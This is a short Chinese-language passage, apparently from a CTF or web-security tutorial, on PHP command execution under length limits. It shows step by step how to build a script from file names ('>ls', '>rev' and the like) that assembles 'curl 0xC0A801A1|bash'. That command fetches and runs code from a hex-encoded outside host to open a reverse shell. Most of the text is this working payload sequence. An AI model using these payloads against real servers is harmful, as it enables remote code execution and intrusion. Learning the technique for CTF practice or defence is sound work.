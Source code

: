 **步骤一：**构建ls -t>g

会用到dir* rev所以构造应该是反序

```
#>g\>
#>ht-          //h是按照时间排序
#>sl
#>dir
```

![image-20240522161439039](./././././././././PHP命令执行/image-20240522161540137.png)

```
#>g;
#>g\>
#>ht-
#>sl
#>dir
#*>v
#>rev
#*v>x
```

**步骤二：**构造反弹shell

```
curl 192.168.1.161|bash --->(进行16进制) curl 0xC0A801A1|bash
```

```
#>ash
#>b\
#>\|\
#>A1\
#>01\
#>A8\
#>C0\
#>0x\
#>\ \
#>rl\
#>cu\
#sh x
#sh g
```
